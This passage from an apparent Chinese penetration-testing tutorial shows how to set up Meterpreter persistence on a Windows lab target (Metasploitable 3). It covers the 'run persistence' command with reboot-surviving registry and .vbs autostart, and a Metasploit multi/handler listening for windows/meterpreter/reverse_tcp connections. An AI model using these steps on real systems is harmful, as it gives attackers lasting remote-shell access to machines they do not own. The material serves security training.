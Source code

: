 图 1：Meterpreter 持久性脚本选项

有一个警告通知我们 Meterpreter 脚本已被弃用，我们应该使用`/post/windows/manage/persistence_exe`。现在，让我们坚持使用弃用的脚本。

要获得持久性 shell，我们可以使用`run persistence -U -i [seconds] -p [port] -r [host]`命令。

这个命令让代理在用户登录时启动（`-U`）。我们以秒为单位定义间隔（`-i`）；我们定义远程端口（`-p`），然后是要连接回的主机（`-r`）。一旦脚本运行，我们将看到已设置一个注册表键，并且已使用`.vbs`文件设置了持久性：

![](img/4ff054e5-614f-4266-acc2-1d9858fb6bfd.png)

图 2：使用 Meterpreter 脚本设置持久性

安装了持久性脚本后，shell 将在用户每次登录时重新建立。但是，我们还需要做一件事，那就是创建一个处理程序。这个处理程序将监听连接并创建远程会话。

可以使用以下命令设置一个简单的处理程序：

```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST [IP]
set LPORT [PORT]
exploit
```

请记住，`LHOST`是持久性脚本中使用的相同 IP 地址，`LPORT`也是在该脚本中定义的相同端口。一旦执行了这些命令，反向处理程序就会启动：

![](img/439dc434-00c2-45a9-be39-4cd31d8ee1e8.png)

图 3：在 Metasploit 中创建处理程序

现在，你已经为远程 shell 连接做好了一切准备，即使目标系统已经重启。你可以通过重新启动 Metasploitable 3 虚拟机来测试这一点。一旦机器启动并有用户登录，meterpreter 会话将建立连接。
